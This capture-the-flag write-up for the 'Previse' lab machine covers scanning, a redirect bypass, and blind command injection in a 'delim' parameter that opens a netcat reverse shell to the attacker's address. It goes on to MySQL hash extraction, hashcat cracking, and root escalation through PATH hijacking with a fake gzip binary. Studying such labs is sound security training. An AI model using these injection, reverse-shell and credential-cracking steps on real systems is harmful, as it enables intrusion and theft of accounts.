 # Previse

## Scanning 

`sudo nmap -sC -sV -oN nmap/initial 10.10.11.104  -v`

`gobuster dir -u 10.10.11.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`


### Open ports

```
22 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80 Apache httpd 2.4.29
```

## Users

```
root:mySQL_p@ssw0rd!:) -> creds for mysql db (previse)
m4lwhere:ilovecody112235! -> creds found in previse db 
```


## Endpoints

```
[16:32:23] 302 -    4KB - /accounts.php  ->  login.php
[16:32:28] 302 -    0B  - /download.php  ->  login.php
[16:32:29] 302 -    6KB - /files.php  ->  login.php
[16:32:30] 302 -    3KB - /index.php  ->  login.php
[16:32:30] 302 -    3KB - /index.php/login/  ->  login.php
[16:32:31] 302 -    0B  - /logout.php  ->  login.php
[16:32:35] 302 -    3KB - /status.php  ->  login.php
```



## Notes

* Found some redirects and tried to manipulate the 302 response to 200 OK in burp

![image](https://user-images.githubusercontent.com/12052283/130096341-94e2160b-5b44-49c9-ae90-f7fa9f705c31.png)

* Manipulating `/files.php`

![image](https://user-images.githubusercontent.com/12052283/130097012-1c7f6f5b-0737-4c51-83fd-af2434881c2c.png)

![image](https://user-images.githubusercontent.com/12052283/130097078-b98400a4-7c1d-47cd-ae29-8ac60e8f5409.png)

![image](https://user-images.githubusercontent.com/12052283/130097127-d149dd0e-6b84-4af5-8bef-8b192555f030.png)

* Created a new user and downloaded the siteBackup.zip

* In `logs.php` there is an `exec` command that executes a python script, so I can execute another command inside that. In the `http://10.10.11.104/file_logs.php` I can intercept in burp and I can inject the command in `delim` param.

* I tried using `id` , `ls`, `whoami` but I found that the injection was blind so no errors returned. Then I used `sleep 2` and it worked. So I spawn a rev shell using `space ; sleep 2 && nc -e /bin/sh 10.10.14.109 9991` url encoded in the `delim` param. The shell worked and I loged in as www-data

* Upgraded the shell using ...

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")' ENTER
Ctrl + Z
stty raw -echo ENTER
fg ENTER ENTER
export TERM=xterm
```

* Logged in into mysql and got the `m4lwhere` hash `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

```bash
mysql -u root -p
mySQL_p@ssw0rd!:)
use previse;
select username,password from accounts;
```

![image](https://user-images.githubusercontent.com/12052283/130125384-1c250445-344a-405e-8302-4f23e0db4acc.png)

* Finding what hash is using `hashcat --example-hashes | grep '\$1' -B4`

* Executing hashcat to crack since I find the hash is a mode 500

![image](https://user-images.githubusercontent.com/12052283/130125578-18df65ab-78da-497d-ab05-f97bf8b08cd8.png)

* With the hash I ssh with user m4lwhere and got the `user.txt` flag

* Executing `sudo -l` I saw that `secure_path` is missing so it will use the user PATH and I could execute `sudo /opt/scripts/access_backup.sh` has root

* So to privesc I needed to create an evil binary (with `gzip` name since the `access_backup.sh` is using gzip) with a reverse shell for example, then I added the `/tmp` folder to the user PATH so when I executed the `access_backup.sh` first it will go to the tmp folder and sees the evil `gzip` binary and then it will execute that binary

Basically it will run the `access_backup.sh` and it will use the `PATH` from the current user since its not defined so it will go to `/tmp` folder first and see if it finds the `gzip` binary

![image](https://user-images.githubusercontent.com/12052283/130155296-bc80155e-5911-43c1-9256-4abb59adae6a.png)


# References

* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

* https://www.youtube.com/watch?v=JRPWFSzFaG0 -> minute 08:00
